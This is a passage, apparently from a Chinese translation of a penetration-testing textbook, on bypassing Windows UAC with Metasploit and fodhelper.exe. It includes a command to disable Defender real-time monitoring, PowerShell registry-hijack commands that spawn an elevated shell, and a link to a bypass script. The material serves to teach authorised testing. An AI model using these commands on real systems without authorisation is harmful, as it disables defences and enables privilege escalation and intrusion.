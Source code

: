 图 9.25：Metasploit 中的有限 Shell

`ask`模块会在目标系统上创建多个伪迹，并且大多数杀毒软件可以识别这些伪迹。请注意，这只有在用户是本地管理员时才有效。现在，让我们使用 Windows 本地漏洞绕过 UAC。一旦`SESSION`设置为活动会话，攻击者将能够绕过 Windows 操作系统设置的 UAC，成功绕过后，攻击者将获得另一个具有系统级权限的 Meterpreter 会话，如*图 9.26*所示：

![文本 说明自动生成](img/B17765_09_26.png)

图 9.26：通过 Metasploit 使用 exploit/windows/local/ask 提升权限

### 使用 fodhelper 绕过 Windows 10 中的 UAC

`fodhelper.exe`是 Windows 用于管理 Windows 设置中功能的可执行文件。如果攻击者对受害者系统有有限的 Shell 或普通用户访问权限，他们可以利用`fodhelper.exe`来绕过 UAC。

测试人员必须注意微软防御者实时监控是否已禁用，因为此路径可能会被防御者阻止作为 UAC 绕过。建议通过以管理员身份运行`PowerShell.exe Set-MpPreference –DisableRealtimeMonitoring $true`命令来禁用微软防御者。

绕过 UAC 可以通过在 Windows PowerShell 中运行以下命令来实现，这些命令利用了 Windows 操作系统中的受信任二进制文件，该二进制文件允许在大多数 UAC 设置下提升权限，而无需 UAC 提示。该二进制文件会检查特定的注册表键并执行指令：

```
WmiObject Win32_UserAccount -filter "LocalAccount=True"| Select-Object Name,Fullname,Disabled
New-Item -Path HKCU:\Software\classes\ms-settings\shell\open\command -value cmd.exe –Force
New-ItemProperty -Path HKCU:\Software\classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force
fodhelper 
```

`![背景图案 说明自动生成](img/B17765_09_27.png)`

图 9.27：手动 fodhelper UAC 绕过

或者，这可以通过运行一行 PowerShell 脚本来实现。在攻击者托管的 HTTP Web 服务器的帮助下，可以通过以下方式实现：

1.  下载绕过脚本（[`github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2009/FodHelperBypassUAC.ps1`](https://github.com/PacktPublishing/Mastering-Kali-Linux-for-Advanced-Penetration-Testing-4E/blob/main/Chapter%2009/FodHelperBypassUAC.ps1)）
